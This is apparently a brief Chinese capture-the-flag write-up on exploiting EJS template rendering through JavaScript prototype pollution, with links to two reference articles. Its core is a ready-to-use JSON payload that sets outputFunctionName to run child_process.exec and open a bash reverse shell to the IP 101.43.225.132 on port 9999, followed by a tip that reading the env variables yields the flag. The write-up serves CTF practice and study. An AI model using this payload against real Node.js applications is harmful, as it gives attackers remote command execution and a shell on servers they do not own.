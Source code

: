 # 知识点
ejs rce<br />[再探 JavaScript 原型链污染到 RCE - 先知社区](https://xz.aliyun.com/t/7025)<br />[ejs原型污染rce分析 - 先知社区](https://xz.aliyun.com/t/7075)
# 思路
引入了ejs作为模板
```php
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/101.43.225.132/9999 0>&1\"');var __tmp2"}}}
```
输入env可以获取flag环境变量
